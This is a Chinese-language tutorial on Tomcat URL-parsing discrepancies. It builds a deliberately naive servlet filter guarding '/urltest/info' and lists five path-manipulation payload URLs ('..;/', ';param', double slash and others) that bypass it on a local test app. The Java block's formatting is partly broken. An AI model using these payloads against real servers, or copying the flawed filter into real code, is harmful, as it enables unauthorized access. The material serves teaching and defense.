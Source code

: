 ```yaml
---
title: "Tomcat URL 解析差异性攻击利用"
id: zhfly3191
---
```


## Tomcat URL 解析差异性攻击利用

看个访问限制绕过的场景。

假设Tomcat上启动的Web目录下存在一个info目录，其中有一个secret.jsp文件，其中包含敏感信息等：

```
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<html>
<head>
    <title>Secret</title>
</head>
<body>
username: mi1k7ea<br>
password: 123456<br>
address: china<br>
phone: 13666666666<br>
</body>
</html> 
```

新建一个filter包，其中新建一个testFilter类，实现Filter接口类：

```
package filter;

import javax.servlet.*;

import javax.servlet.http.*;

import java.io.IOException;

public class testFilter implements Filter {

@Override

public void init(FilterConfig filterConfig) throws ServletException {

```
}

@Override
public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
    HttpServletRequest httpServletRequest = (HttpServletRequest)servletRequest;
    HttpServletResponse httpServletResponse = (HttpServletResponse)servletResponse;

    String url = httpServletRequest.getRequestURI();

    if (url.startsWith("/urltest/info")) {
        httpServletResponse.getWriter().write("No Permission.");
        return;
    }

    filterChain.doFilter(servletRequest, servletResponse);
}

@Override
public void destroy() {

} 
``` `}` 
```

这个Filter作用是：只要访问/urltest/info目录下的资源，都需要进行权限判断，否则直接放行。可以看到，这里调用getRequestURI()函数来获取请求中的URL目录路径，然后调用startsWith()函数判断是否是访问的敏感目录，若是则返回无权限的响应。当然这里写得非常简单，只做演示用。

编辑web.xml，添加testFilter设置：

```
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
         version="4.0">
    <filter>
        <filter-name>testFilter</filter-name>
        <filter-class>filter.testFilter</filter-class>
    </filter>
    <filter-mapping>
        <filter-name>testFilter</filter-name>
        <url-pattern>/*</url-pattern>
    </filter-mapping>
</web-app> 
```

运行之后，访问`http://localhost:8080/urltest/info/secret.jsp`，会显示无权限：

![image](../img/6bbe19f67f4731ef8d683a2b8fb26635.png)

根据前面的分析构造如下几个payload都能成功绕过认证限制来访问：

```
http://localhost:8080/urltest/./info/secret.jsp
http://localhost:8080/urltest/;mi1k7ea/info/secret.jsp
http://localhost:8080/urltest/mi1k7ea/../info/secret.jsp
http://localhost:8080/urltest/mi1k7ea/..;/info/secret.jsp
http://localhost:8080//urltest/info/secret.jsp 
```

![image](../img/9104ca96ff76878da56a5ed6b4a80182.png)

整个的过程大致如此，就是利用解析的差异性来绕过认证